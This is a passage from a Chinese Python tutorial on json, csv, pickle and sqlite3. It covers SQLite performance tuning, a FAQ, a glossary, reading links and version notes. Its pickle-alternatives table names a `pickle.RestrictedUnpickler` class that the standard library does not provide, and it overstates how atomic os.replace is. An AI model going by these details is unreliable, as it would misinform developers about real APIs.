    print(f"SHA-256: {result[0]}")
```

### 4.8 性能调优

```python
import sqlite3

with sqlite3.connect("data/app.db") as conn:
    # 1. 开启 WAL 模式：读写不冲突
    conn.execute("PRAGMA journal_mode=WAL;")

    # 2. 调整同步级别（性能 vs 安全的权衡）
    conn.execute("PRAGMA synchronous=NORMAL;")  # NORMAL: 折中; OFF: 最快但不安全

    # 3. 增大缓存（提升重复读取性能）
    conn.execute("PRAGMA cache_size=-64000;")   # 64MB 缓存

    # 4. 批量操作（最关键的优化）
    data = [(f"user_{i}", float(i % 100)) for i in range(100000)]
    conn.executemany("INSERT INTO users (name, score) VALUES (?, ?)", data)
    # 整个 with 块是一个事务，比逐条 commit 快 10-100 倍
```

**批量操作性能对比**（示意量级，随硬件与数据而异）：

| 方式 | 10 万行插入耗时（示意） | 说明 |
|:---|:---|:---|
| 逐条自动提交 | ~30s | 每条 INSERT 都触发磁盘写入 |
| 单一事务 + 逐条 execute | ~1s | 事务批量提交 |
| 单一事务 + executemany | ~0.3s | **推荐**，最优方案 |

---

## 常见陷阱与 FAQ

### Q1: json 中文编码变成 `\uXXXX` 怎么办？

**问题复现**：

```python
import json
data = {"名称": "Python教程"}
print(json.dumps(data))
# {"\u540d\u79f0": "Python\u6559\u7a0b"}  ← 默认 ensure_ascii=True，中文被转义
```

**解决方案**：

```python
# 设置 ensure_ascii=False + encoding="utf-8"
json_str = json.dumps(data, ensure_ascii=False)
print(json_str)
# {"名称": "Python教程"}  ← 中文原样输出

# 写入文件时也要指定编码
with open("data.json", "w", encoding="utf-8") as f:
    json.dump(data, f, ensure_ascii=False)
```

### Q2: pickle 反序列化不安全，有哪些替代方案？

| 替代方案 | 适用场景 | 安全性 |
|:---|:---|:---|
| `json` | 基本数据类型交换 | 高 |
| `msgpack` | 需要二进制格式但跨语言 | 高 |
| `protobuf` | 高性能跨语言序列化 | 高 |
| 自定义 JSON + `__type__` 字段 | 复杂对象但需安全 | 高 |
| `pickle.RestrictedUnpickler` | 必须用 pickle 但需限制类型 | 中（需谨慎配置白名单） |

### Q3: sqlite3 多线程/多进程并发写入报错怎么办？

**问题**：`sqlite3.OperationalError: database is locked`

**解决方案**：

```python
import sqlite3

# 方案一：开启 WAL 模式（推荐，读写不冲突）
conn = sqlite3.connect("data/app.db")
conn.execute("PRAGMA journal_mode=WAL;")

# 方案二：增加超时等待（等待锁释放而非立即报错）
conn = sqlite3.connect("data/app.db", timeout=30)  # 等待最多 30 秒

# 方案三：多线程中使用 check_same_thread=False（需自行保证线程安全）
# conn = sqlite3.connect("data/app.db", check_same_thread=False)

# 方案四（多进程）：使用连接池或让写入操作串行化
```

**并发能力总结**：

| 场景 | 默认模式 | WAL 模式 |
|:---|:---|:---|
| 多线程同时读 | 支持 | 支持 |
| 多线程同时写 | 不支持（锁库） | 不支持（一次一个写入者） |
| 读 + 写同时 | 不支持（互斥） | **支持**（读旧版本，写新版本） |
| 多进程同时读 | 支持 | 支持 |
| 多进程同时写 | 不支持 | 不支持 |

### Q4: 如何处理超大的 CSV 文件？

```python
import csv

# 方案一：逐行处理（内存占用极小）
with open("huge.csv", "r", newline="", encoding="utf-8") as fh:
    reader = csv.DictReader(fh)
    for row in reader:
        process(row)                   # 每次只处理一行

# 方案二：分块读取（需要批量处理时）
chunk_size = 10000
with open("huge.csv", "r", newline="", encoding="utf-8") as fh:
    reader = csv.DictReader(fh)
    chunk = []
    for i, row in enumerate(reader):
        chunk.append(row)
        if len(chunk) >= chunk_size:
            batch_process(chunk)
            chunk = []
    if chunk:                          # 处理剩余行
        batch_process(chunk)

# 方案三：使用 pandas 分块读取（更强大）
import pandas as pd
for chunk in pd.read_csv("huge.csv", chunksize=10000):
    process(chunk)                     # chunk 是一个 DataFrame
```

### Q5: json 写入大文件时如何保证原子性？

```python
import json
import os
from pathlib import Path

def atomic_json_dump(data, target_path: str):
    """原子化写入 JSON：先写临时文件，再原子替换"""
    target = Path(target_path)
    target.parent.mkdir(exist_ok=True)
    temp = target.with_suffix(".tmp")

    # 1. 写入临时文件
    with open(temp, "w", encoding="utf-8") as f:
        json.dump(data, f, ensure_ascii=False, indent=2)
        f.flush()                      # 刷新缓冲区
        os.fsync(f.fileno())           # 强制写入磁盘

    # 2. 原子替换（os.replace 在所有 OS 上都是原子操作）
    os.replace(temp, target)

# 使用
config = {"host": "localhost", "port": 8080}
atomic_json_dump(config, "data/config.json")
```

### Q6: csv 读取的数据全是字符串，如何自动类型转换？

```python
import csv
from datetime import datetime

def convert_row(row: dict) -> dict:
    """手动类型转换：CSV 读取的值全部是字符串"""
    converters = {
        "age":   int,
        "score": float,
        "date":  lambda s: datetime.strptime(s, "%Y-%m-%d"),
    }
    for key, converter in converters.items():
        if key in row and row[key]:
            try:
                row[key] = converter(row[key])
            except (ValueError, TypeError):
                pass                   # 转换失败则保留原字符串
    return row

with open("data.csv", "r", newline="", encoding="utf-8") as fh:
    reader = csv.DictReader(fh)
    for row in reader:
        row = convert_row(row)
        print(type(row["age"]))        # <class 'int'>
```

---

## 术语表

| 术语 | 英文 | 定义 |
|:---|:---|:---|
| 序列化 | Serialization | 将内存中的对象转换为可存储/传输的格式（如字符串、字节流）的过程 |
| 反序列化 | Deserialization | 将存储/传输格式还原为内存中对象的过程，序列化的逆操作 |
| 持久化 | Persistence | 将数据从易失性存储（内存）写入非易失性存储（磁盘）的过程 |
| JSON | JavaScript Object Notation | 一种轻量级的文本数据交换格式，以键值对和数组组织数据 |
| CSV | Comma-Separated Values | 一种纯文本的表格数据格式，字段间以逗号分隔 |
| Pickle | Python pickle | Python 专有的二进制序列化协议，支持几乎所有 Python 对象 |
| 协议版本 | Protocol Version | pickle 序列化格式的版本号，高版本更高效但不向下兼容 |
| WAL | Write-Ahead Logging | SQLite 的一种日志模式，允许读写并发操作 |
| 事务 | Transaction | 一组操作的逻辑单元，要么全部成功，要么全部回滚 |
| 游标 | Cursor | 数据库查询的执行器，用于发送 SQL 并获取结果 |
| SQL 注入 | SQL Injection | 攻击者通过构造恶意输入来篡改 SQL 语句的攻击方式 |
| 原子操作 | Atomic Operation | 不可分割的操作，要么完全执行，要么完全不执行 |
| 索引 | Index | 数据库中加速查询的辅助数据结构，以写入开销换取查询速度 |
| 方言 | Dialect | csv 模块中封装格式参数（分隔符、引用符等）的配置对象 |
| 嗅探器 | Sniffer | csv 模块中自动检测文件格式（方言）的工具 |
| JSON Schema | — | 一种用于描述和校验 JSON 数据结构的规范 |
| PRAGMA | — | SQLite 的配置指令，用于调整数据库引擎的行为 |

---

## 延伸阅读

### 官方文档

- [json — JSON 编码器和解码器](https://docs.python.org/zh-cn/3/library/json.html)
- [csv — CSV 文件读写](https://docs.python.org/zh-cn/3/library/csv.html)
- [pickle — Python 对象序列化](https://docs.python.org/zh-cn/3/library/pickle.html)
- [shelve — Python 对象持久化](https://docs.python.org/zh-cn/3/library/shelve.html)
- [sqlite3 — SQLite 数据库接口](https://docs.python.org/zh-cn/3/library/sqlite3.html)

### 第三方高性能库

| 库 | 类型 | 说明 |
|:---|:---|:---|
| [orjson](https://github.com/ijl/orjson) | JSON | 目前最快的 Python JSON 库，比标准库快 3-10 倍 |
| [ujson](https://github.com/ultrajson/ultrajson) | JSON | C 实现的高性能 JSON 解析器 |
| [ijson](https://github.com/ICRAR/ijson) | JSON | 流式 JSON 解析器，适合超大文件 |
| [pandas](https://pandas.pydata.org/) | CSV/DataFrame | 数据分析基石，强大的 CSV 读写与处理能力 |
| [Polars](https://pola.rs/) | DataFrame | Rust 实现的新一代 DataFrame 库，多核并行，性能卓越 |
| [msgpack](https://msgpack.org/) | 二进制序列化 | 类似 JSON 但更小更快的跨语言二进制格式 |
| [protobuf](https://protobuf.dev/) | 二进制序列化 | Google 的高性能跨语言序列化方案 |

### 推荐阅读

- [SQLite 官方文档](https://www.sqlite.org/docs.html) — 了解 SQLite 的完整功能与限制
- [SQLite WAL 模式详解](https://www.sqlite.org/wal.html) — 深入理解并发机制
- [JSON Schema 规范](https://json-schema.org/) — 数据校验的标准方案
- [Python pickle 安全问题](https://docs.python.org/zh-cn/3/library/pickle.html#module-pickle) — 官方安全警告
- [The Python Workbook](https://link.springer.com/book/10.1007/978-3-319-14240-1) — 包含大量 sqlite3 实战练习

---

## 版本变更记录

### v2.0.0 (2026-06-04)

- **重构**：全面重写，采用"是什么 → 为什么 → 怎么做"三层展开结构
- **新增**：4 张 Mermaid 图（决策树、序列化时序图、pickle vs json 对比图、sqlite3 架构图）
- **新增**：四大存储模块全景对比表
- **新增**：json 高级用法（自定义编码器、object_hook、ensure_ascii/sort_keys/indent 详解）
- **新增**：csv 读写模式对比表
- **新增**：pickle 安全风险与替代方案（含 Mermaid 决策图）
- **新增**：sqlite3 事务管理、连接管理最佳实践、性能调优
- **新增**：FAQ 6 条（中文编码、pickle 安全、sqlite 并发、csv 大文件、原子写入、类型转换）
- **新增**：术语表（17 个核心术语）
- **新增**：延伸阅读（官方文档 + 第三方库 + 推荐阅读）
- **优化**：所有代码示例增加逐行注释

### v1.0.0 (2026-02-23)

- 文档首次发布，涵盖 `json`, `csv`, `pickle`, `shelve`, `sqlite3` 的基础用法

## 版本差异（标准库 → Python 3.14）

| 模块/特性 | 本文编写时 | Python 3.14 变化 |
|-----------|-----------|------------------|
| `datetime` | `utcnow()` / `utcfromtimestamp()` | 3.12 起弃用，改用 `datetime.now(tz=datetime.UTC)` / `fromtimestamp(ts, tz=datetime.UTC)`（aware 对象） |
| `asyncio` | 基础 API | 3.14 新增内省能力（`asyncio.Task`/`Future` 状态查询）；3.11 起推荐 `TaskGroup` + `asyncio.timeout()` |
| `typing` | 旧式 `List`/`Dict` | 3.9+ 内置泛型；3.10+ 联合类型 `X \| Y`；3.12 `type` 语句；3.14 PEP 649 延迟注解 |
| `importlib` | `imp` 模块 | `imp` 于 3.12 移除，统一使用 `importlib` |
| 压缩 | zlib/gzip/bz2/lzma | 3.14 新增 `zstandard` 标准库支持（PEP 784） |
| `pathlib` | 基础路径操作 | 3.12+ 持续增强（`Path.walk()` 等）；`is_relative_to()` 自 3.9 起可用 |
| 往事清理 | — | 3.13 移除 `cgi`、`telnetlib`、`crypt`、`audioop` 等已废弃模块 |

> 本文讲解的模块核心 API 与使用模式在 3.14 中保持稳定；注意上述弃用/移除项，升级时优先用标准库推荐的替代方案。
